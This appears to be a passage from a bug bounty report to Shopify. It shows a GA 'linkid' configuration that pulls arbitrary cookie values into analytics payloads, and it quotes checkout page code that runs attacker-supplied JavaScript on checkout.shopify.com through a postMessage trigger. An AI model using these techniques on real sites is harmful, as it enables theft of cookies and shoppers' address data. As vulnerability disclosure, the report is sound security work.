 ## Reading cookie values
Google Analytics has a optional [Enhanced Link Attribution](https://developers.google.com/analytics/devguides/collection/analyticsjs/enhanced-link-attribution) plugin which allows tracking which element was clicked leading to a page load.
To accomplish this element IDs are saved in a `_gali` cookie which is then read by Google Analytics and emitted as part of page loads.
The name of this cookie is customizable via a `cookieName` property, ex:
```
ga('require', 'linkid', {
  'cookieName': 'pwn',
});
ga('send', 'pageview');
```
This will result in the value of the `pwn` cookie (assuming it is readable) being included in the Google Analytics payloads making it (eventually) accessible from the GA console:
{F1163232}


# P.S. (self?) "XSS" on checkout.shopify.com
I wanted to note one other component of this (the original reason this proxy exists) is the ability to execute arbitrary JavaScript on `checkout.shopify.com` via the "Additional Google Analytics JavaScript" setting.
This is the [checkout.shopify.com/$shop_id$/sandbox/google_analytics_iframe](https://checkout.shopify.com/20276739/sandbox/google_analytics_iframe) page:
```js
window.additionalScripts = function() {
    // JS controlled by the attacker 
};
// [snip]
{
  key: "receiveMessage",
  value: function o(e) {
    if (e.source === window.parent && "checkout_context" === e.data.type) {
      this.origin = e.origin, window.Shopify = e.data.Shopify, window.__st = e.data.__st;
      try {
        window.additionalScripts()
      } catch (t) {
        console.error("User script error: ", t)
      }
    }
  }
}
// [snip]
var t = this;
window.addEventListener("message", function(e) {
  return t.receiveMessage(e)
}, !1)
```
This is essentially (intentional) XSS by design on the `checkout.shopify.com` domain (an attacker can iframe this page and trigger the `"checkout_context"` postMessage).
I'm not sure if this is intended functionality (it kinda has to be to make this integration work) but it results in an potential malicous actor executing JS on the same domain that handles the payment integrations (but not direct credit card numbers), address auto-complete, etc.
It is possible in somewhat contrived/high user interaction scenarios (ex: the attacker opens the initial shop page) to utilize this XSS to intercept address fields or other integration details via `win.frames[<index]` following `var win = window.open(...)`.
Let me know if you're interested in some PoCs for that or more details.
